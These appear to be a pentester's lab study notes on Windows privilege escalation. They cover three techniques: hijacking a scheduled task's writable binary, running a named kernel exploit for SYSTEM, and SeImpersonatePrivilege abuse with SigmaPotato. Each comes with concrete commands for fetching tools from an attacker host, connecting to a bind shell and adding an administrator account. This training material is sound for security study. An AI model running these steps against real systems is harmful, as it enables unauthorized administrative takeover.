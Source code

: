 ### Scheduled Tasks

Identify privilege escalation vector for scheduled task by asking...

- As which user account (principal) does this task get executed?
- What triggers are specified for the task?
- What actions are executed when one or more of these triggers are met?

##### Scenario

Privilege escalation by replacing a binary

View scheduled tasks on Windows:
- `
`
- `schtasks /query`

Display a list of all scheduled tasks on CLIENTWK220

`schtasks /query /fo LIST /v`

Seek interesting info in the fields
- _Author_
- _TaskName_
- _Task To Run_
- _Run As User_
- _Next Run Time_

Interesting results:

```hlt:4,5,10,11,8,17
...
Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        7/11/2022 2:47:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/11/2022 2:46:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          daveadmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
...
```

Task `BackendCacheCleanup.exe` executes every minute as daveadmin 

Checking our permissions (as steve) on the executable with #icacls 

`icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe`

Result:

````
CLIENTWK220\steve:(I)(F)
````

We do have full access to the executable. 

Use our binary **adduser.exe** again to replace the executable file

Start #pythonhttpserver to serve up adduser.exe

Download with #iwr onto target

`iwr -Uri http://192.168.48.3/adduser.exe -Outfile BackendCacheCleanup.exe`

Move `BackendCacheCleanup.exe` to our home directory to restore it after privilege escalation. 

Replace original `BackendCacheCleanup.exe` with our malicious exe

`move .\BackendCacheCleanup.exe .\Pictures\`

When scheduled task executes again , we should have our new admin user. 

### Using Exploits 

#### Exploit Application-Based Vulnerabilities

If apps run with administrative permissions, we can exploit a vulnerability that leads to code execution

#### Exploit Windows Kernel Vulnerabilities 

##### Scenario

Logging in over RDP as steve and checking our current privileges

`whoami /priv`

Result: no special privvies

```
Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

Enumerate Windows version

`systeminfo`

Result:

````
10.0.22621 N/A Build 22621
````

Enumerate security patches

`
`

Result:

```
Source        Description      HotFixID      InstalledBy          InstalledOn
------        -----------      --------      -----------          -----------
              Security Update  KB5025239                          5/4/2023 12:00:00 AM
              Security Update  KB5025749                          5/4/2023 12:00:00 AM
              Security Update  KB5017233                          9/25/2022 12:00:00 AM
```

Kernel vulnerabilities:

https://msrc.microsoft.com/

Kernel exploit:

```
CVE-2023-29360.exe
```

Executing this as Steve user, elevates us to nt authority /system

#### Exploit Certain Windows Privileges

Privileges that could lead to privilege escalation:
- _SeImpersonatePrivilege_
- _SeBackupPrivilege_
- _SeAssignPrimaryToken_
- _SeLoadDriver_
- _SeDebug_

Non-privileged users with _SeImpersonatePrivilege_ can abuse this for privilege escalation.

Users with _SeImpersonatePrivilege_ can leverage a token with another security context. Typically admins have this privilege. Service accounts also may have this privilege. 

##### Scenario: 

Coerce Privileged Process NT AUTHORITY\SYSTEM 

(_SeImpersonatePrivilege_) to connect to our controlled named pipe.

Tool:  [_SigmaPotato_](https://github.com/tylerdotrar/SigmaPotato)

[[Potatoes]]

Connecting to bind shell as Dave

`nc 192.168.50.220 4444`

Display his privileges

`whoami /priv`

Result: he does have _SeImpersonatePrivilege_

```
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
```

Attempt to priv esc using _Sigma Potato_

On Kali box, download _Sigma Potato_

`wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe`

Serve up with #pythonhttpserver 

`python3 -m http.server 80`

Back on the bind shell, start PowerShell session

`powershell`

Download #sigmapotato with #iwr

`iwr -uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe`

`SigmaPotato.exe` allows us to execute commands as _NT AUTHORITY\SYSTEM_ 

Using net user to add a new user to the _Administrators_ group.

`.\SigmaPotato "net user dave4 lab /add"`

`.\SigmaPotato "net localgroup Administrators dave4 /add"`

Verifying user add:

`net localgroup Administrators`

### Additional method:

Privileged File Writes

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---privileged-file-write